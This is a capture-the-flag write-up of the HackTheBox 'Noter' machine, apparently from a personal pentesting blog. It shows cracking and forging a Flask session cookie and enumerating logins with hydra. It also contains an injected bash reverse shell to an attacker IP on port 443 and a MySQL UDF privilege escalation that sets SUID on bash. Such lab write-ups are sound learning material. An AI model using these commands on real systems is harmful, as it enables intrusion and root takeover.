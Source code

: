 ```yaml
---
title: HTB | Noter
author: Zeropio
date: 2022-08-29
categories: [Pentesting, HackTheBox]
tags: [htb, linux, medium, machines]
permalink: /pentesting/htb/machines/noter
---
```


![HTB Img](/assets/img/hackthebox/card/Noter.png)

# Fingerprinting

The nmap gives us:

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c6:53:c6:2a:e9:28:90:50:4d:0c:8d:64:88:e0:08:4d (RSA)
|   256 5f:12:58:5f:49:7d:f3:6c:bd:9b:25:49:ba:09:cc:43 (ECDSA)
|_  256 f1:6b:00:16:f7:88:ab:00:ce:96:af:a6:7e:b5:a8:39 (ED25519)
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Noter
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

If we created and account we can see a cookie after login.

# Footprinting

The **anonymous** user for FTP doesn’t work.

We can check the cookie we have: `eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiemVybyJ9.Ywyj5A.uzkuRLWLxKI9ty3BHCUOWVr9Szo` . We can use `flask-unsign`, from Python, to decrypt the cookie.

```console
zero@pio$ flask-unsign --unsign --no-literal-eval --wordlist /usr/share/wordlists/rockyou.txt --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiemVybyJ9.Ywyj5A.uzkuRLWLxKI9ty3BHCUOWVr9Szo'
[*] Session decodes to: {'logged_in': True, 'username': 'zero'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17024 attempts
b'secret123'
```

We must use `—unsign`  to specify that we are using a wordlist, and `--no-literal-eval` to allow the cookie as a string (if not we get an error). We can see that the output differs from a invalid password than an invalid username, so we can try to get a list of valid users. Let’s use `hydra` for this:

```console
zero@pio$ hydra -L /usr/share/seclists/Usernames/Names/names.txt -p 'test' 10.10.11.160 -s 5000 http-post-form '/login:username=^USER^&password=test:S=<div class="alert alert-danger">Invalid login</div>'

[5000][http-post-form] host: 10.10.11.160   login: blue   password: test
```

Now we can use flask-unsign to generate the cookie, using the same format as our cookie:

```console
zero@pio$ flask-unsign --sign --secret 'secret123' --cookie "{'logged_in': True, 'username': 'blue'}"
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YwypQA.7rj51Sgyf-usb-tvmGo4CKREIkk
```

And now we are in the blue user account:

![Untitled](/assets/img/hackthebox/labs/noter/Untitled.png)

Inside the premium notes, we can see the credentials `blue:blue@Noter!` . We can test the credentials works:

```console
zero@pio$ tp blue@10.10.11.160                                                                      
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
```

We can get a pdf with the password policy. There we can see that the default password is `username@site_name!`. In the note we can saw that is signed by the **ftp_admin** user, if we try the default password (`ftp_admin@Noter!`):

```console
zero@pio$ ftp ftp_admin@10.10.11.160
```

Inside we can see two zip files. Inside of them are the source code of the web. In one of them can be found the following lines:

```python
# Config MySQL
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'DB_user'
app.config['MYSQL_PASSWORD'] = 'DB_password'
app.config['MYSQL_DB'] = 'app'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor'
```

As well as the secret:

```python
if __name__ == '__main__':
    app.secret_key='secret123'
    app.run(host="0.0.0.0",debug=False)
```

In the other, we have a non-default credentials:

```python
# Config MySQL
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'
app.config['MYSQL_DB'] = 'app'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor'
```

We cannot use the credentials for SSH. Also, the machine doesn’t have an opened port of MySQL so we cannot connect to it.

Going back to the web, we can see we can export notes from an URL to the server. In the source code, the app access this through a get. We will create a **shell.md** file with the content `--';bash -i >& /dev/tcp/10.10.16.44/443 0>&1;'—` . Open a netcat, and launch the file. Now we are inside the system. 

# Privilege Escalation

We can see is vulnerable to **CVE-2021-3560**, but using this [PoC](https://raw.githubusercontent.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/main/poc.sh) we see that the machine doesn’t have **Gnome-Control-Center**, necessary for the exploit.

We can try another path. The MySQL version is also vulnerable. Using this [exploit](https://www.exploit-db.com/exploits/1518) we can make it work. Download the exploit into the machine and follow the exploit. First, compile it:

```console
svc@noter:~$ gcc -g -c 1518.c
svc@noter:~$ gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc
```

Following the instructions (we must change the path we upload the script from the exploitdb):

```console
svc@noter:~$ mysql -u'root' -p'Nildogg36'
MariaDB [(none)]> use mysql;
MariaDB [mysql]> create table foo(line blob);
MariaDB [mysql]> insert into foo values(load_file('/home/svc/1518.so'));
MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/1518.so';
MariaDB [mysql]> create function do_system returns integer soname '1518.so';
MariaDB [mysql]> select * from mysql.func;
MariaDB [mysql]> select do_system('chmod u+s /bin/bash');
MariaDB [mysql]> exit
```

If everything works:

```console
svc@noter:~$ bash -p
bash-5.0# whoami
	root
```
